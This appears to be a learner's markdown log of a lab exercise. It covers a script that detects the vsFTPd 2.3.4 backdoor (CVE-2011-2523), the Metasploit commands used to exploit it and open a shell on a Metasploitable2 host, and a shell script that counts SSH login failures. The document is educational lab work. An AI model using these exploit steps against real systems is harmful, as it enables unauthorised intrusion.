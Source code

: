 # Day 4: Phantom Scripts — Custom Exploit & Defense Automation

## OPSEC/Anonymity Notes
- All network scans or probes routed via Tor proxychains.
- Scripts developed and tested in a controlled, ethical environment.
- Date/time: (insert date/time)

---

## Offensive Script: phantom_attack.py

- Checks for vsFTPd 2.3.4 backdoor vulnerability (CVE-2011-2523).
- Example Output:
    ```
    [!] 192.168.56.101:21 appears vulnerable to vsFTPd 2.3.4 backdoor (CVE-2011-2523)
    ```
## Offensive Script: phantom_attack.py

- Target: 192.168.0.80 (Metasploitable2)
- Scan output:
    [!] 192.168.0.80:21 appears vulnerable to vsFTPd 2.3.4 backdoor (CVE-2011-2523)

- This matches the finding from Metasploit and validates both detection and reporting logic.

### vsFTPd 2.3.4 Backdoor Exploit (CVE-2011-2523)

Metasploit exploit used:
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.0.80
run
Result:
- Successfully exploited vsFTPd backdoor.
- Command shell session opened on Metasploitable2.
- Demonstrates risk of running outdated/vulnerable software in production.

---

## Defensive Script: phantom_defend.sh

- Scans system log for repeated SSH login failures (potential brute-force).
- Example Output:
    ```
    24 192.168.56.103
    17 192.168.56.102
    ```
- Recommendation: Block high-frequency offending IPs and enable fail2ban.

---

## Summary & Reflection

- **What I Learned:**  
  - How to quickly code custom security checks and automations for both offense and defense.
  - The value of scripting to speed up analysis and reduce manual effort.
- **Next Steps:**  
  - Expand exploit scripts for other common CVEs.
  - Automate alerts/response on defense scripts.

---

**All scripts and activities were developed and run ethically on local test systems.**
